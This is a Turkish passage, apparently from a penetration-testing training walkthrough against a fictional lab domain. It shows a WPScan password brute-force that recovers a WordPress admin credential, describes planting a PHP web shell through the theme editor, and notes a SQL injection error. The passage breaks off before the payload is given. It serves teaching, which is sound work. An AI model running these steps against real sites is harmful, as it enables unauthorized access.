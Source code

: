 Birkaç kullanıcı bulduk:

- ilfreightwp
- tom
- james
- john

[SecLists GitHub](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) deposundaki bu kelime listesini kullanarak hesap parolalarından birini brute-force yapmayı deneyelim. WPScan'i tekrar kullanarak, ilfreightwp hesabı için bir isabet elde ediyoruz.

```shell-session
[!bash!]$ wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - ilfreightwp / password1                                                                              
Trying ilfreightwp / 123123 Time: 00:00:00 <===                                > (10 / 109)  9.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:31:34 2022
[+] Requests Done: 186
[+] Cached Requests: 7
[+] Data Sent: 54.2 KB
[+] Data Received: 253.754 KB
[+] Memory used: 241.836 MB
[+] Elapsed time: 00:00:16
```

Buradan http://ir.inlanefreight.local/wp-login.php adresine gidebilir ve ilfreightwp:password1 kimlik bilgilerini kullanarak giriş yapabiliriz. Giriş yaptıktan sonra, http://ir.inlanefreight.local/wp-admin/ adresine yönlendirileceğiz ve burada http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty adresine giderek etkin olmayan Twenty Twenty teması için 404.php dosyasını düzenleyebilir ve Remote Code execution elde etmek için bir PHP web shell ekleyebiliriz. Bu sayfayı düzenledikten ve Attacking Common Applications modülünün Attacking WordPress bölümündeki adımları izleyerek kod çalıştırmayı başardıktan sonra, Weak WordPress Admin Credentials için bir bulgu daha kaydedebilir ve müşterimize bu WordPress sitesini dışarıya açık bırakmayı planlıyorlarsa çeşitli güçlendirme önlemleri almasını tavsiye edebiliriz.


## status.inlanefreight.local

Bu site, internete açık olmaması gereken unutulmuş bir uygulama gibi görünüyor. Görünüşe göre bu, loglar arasında arama yapmak için kullanılan bir tür iç uygulama. Tek bir tırnak işareti (') girmek, bir **MySQL hata mesajı** ortaya çıkarıyor ve bu, bir **SQL injection** zafiyetinin varlığını gösteriyor:  
**"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1."**  
Bu durumu, aşağıdaki gibi bir payload kullanarak manuel olarak sömürebiliriz:

